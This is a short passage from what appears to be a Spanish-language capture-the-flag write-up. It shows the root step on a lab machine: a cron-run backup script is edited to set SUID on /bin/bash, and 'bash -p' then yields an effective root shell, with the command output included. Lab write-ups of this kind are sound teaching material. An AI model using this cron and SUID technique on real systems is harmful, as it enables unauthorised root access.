 Esperamos a que se ejecute la tarea cron y modificamos el script añadiendo la siguiente linea.

```bash
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
chmod +s /bin/bash;
```

Le otorgamos privilegios SUID a la bash, esperamos a que se vuelva a ejecutar el script y ahora podemos llamar a la bash de forma privilegiada.

```bash
giovanni@teacher:~/work/tmp$ bash -p
bash-4.4# id
uid=1000(giovanni) gid=1000(giovanni) euid=0(root) egid=0(root) groups=0(root),1000(giovanni)
bash-4.4#
```

Ya hemos pwneado la máquina, espero que te haya servido.




